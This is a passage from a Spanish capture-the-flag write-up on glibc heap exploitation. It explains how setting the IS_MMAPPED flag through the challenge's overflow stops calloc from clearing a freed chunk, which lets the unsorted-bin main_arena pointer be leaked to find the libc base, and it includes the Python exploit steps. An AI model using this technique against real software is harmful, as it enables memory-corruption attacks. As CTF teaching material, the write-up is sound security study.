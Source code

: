 Por tanto, nuestro primer objetivo será hacer creer a esa función que el chunk que está a punto de devolver fue asignado mediante `mmap`. 
```c
/* size field is or'ed with IS_MMAPPED if the chunk was obtained with mmap() */
#define IS_MMAPPED 0x2

/* check for mmap()'ed chunk */
#define chunk_is_mmapped(p) ((p)->mchunk_size & IS_MMAPPED)
```

Como vemos, el campo `mchunk_size`, además de contener el tamaño del chunk, que está alineado a 8 o 16 bytes, según la arquitectura, utiliza los bits menos significativos para almacenar ciertas flags, entre ellas que el chunk proviene de un `mmap`. Aprovecharemos la vulnerabilidad de la función `fix` de la aplicación para modificar el campo size del siguiente chunk en memoria, activando esa flag `IS_MMAPPED`.

## Leak libc

Una forma común de obtener la dirección base de libc es acceder a un chunk recientemente liberado al unsorted bin. Cuando se libera un chunk, se mete en una lista doblemente enlazada. En sus campos fd y bk se guardan punteros al siguiente y anterior chunk de la lista. Cuando sólo hay uno, ambos punteros apuntan a una dirección conocida de la libc, el main_arena. Sabiendo esta dirección podemos obtener la ubicación base de libc.

En el siguiente código se utiliza esta técnica. Se libera un bloque y se vuelve a reservar de nuevo. Para evitar que `calloc` borre su contenido, antes de reservarlo de nuevo utilizamos el método `fix` del reto para marcar ese chunk como IS_MMAPPED.

```python
add(0, 0xf8, "0")
add(1, 0xf8, "1")
add(2, 0x20, "evita colapsar")

# Borramos el chunk 1 que reservaremos más adelante
delete(1)
# Modificamos el chunk 1, de tamaño 0x100, estableciendo las flags IS_MMAPED (0x02) y PREV_INUSE (0x01)
fix(0, 0x108, "\x03")
# Reservamos el mismo bloque. Enviamos 8bytes que sobrescribe fd (no podemos enviar 0 bytes)
add(1, 0xf8, 'A'*8)
dump(1)
# Los primeros bytes después de 'A'*8, contienen la dirección del main_arena en el puntero bk
# al tratarse del primer chunk en el unsorted bin
io.recvuntil('A'*8)
leak = unpack( io.recv(6).ljust(8,"\x00") )
libc_address = leak - 0x1e4ca0 
log.info("libc address. %16x", libc_address)
```

## Leak libc, the hard way

En el momento de hacer el reto no caí en la cuenta de ese flag IS_MMAPED, así que tuve que dar unos cuantos rodeos para obtener la dirección del main_arena.
